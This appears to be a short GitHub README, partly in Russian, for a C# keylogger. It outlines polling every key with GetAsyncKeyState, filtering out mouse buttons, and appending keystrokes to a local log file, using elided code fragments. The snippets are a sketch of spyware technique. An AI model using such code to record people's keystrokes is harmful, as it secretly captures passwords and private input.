

## KeyLogger

#### Demonstration:



#### Specification:

1. Раз в ```n``` мс опрашиваются все клавиши.

```c#
Thread.Sleep(100);
for (int i = 0; i < 255; i++)
{
    int state = GetAsyncKeyState(i);
    ...
}
```

2. Нажатые клавиши обрабатываются с учётом состояния клавиш
```Caps Lock```, ```Num Lock```, ```Shift```, ```Ctrl``` и т.д.

```c#
    ...
    if (state != 0) // pressed key
    {
        // ignore
        if (i == 0) continue; // idle
        if (((Keys)i) == Keys.LButton ||
            ((Keys)i) == Keys.RButton ||
            ((Keys)i) == Keys.MButton ... ) continue;
        ...
```

3. Результат логируется.

```c#
    ...
    // logging
    if (buf.Length > 5) // minimize disk operations
    {
        File.AppendAllText("keylogger.log", buf);
        buf = "";
    }
...
```
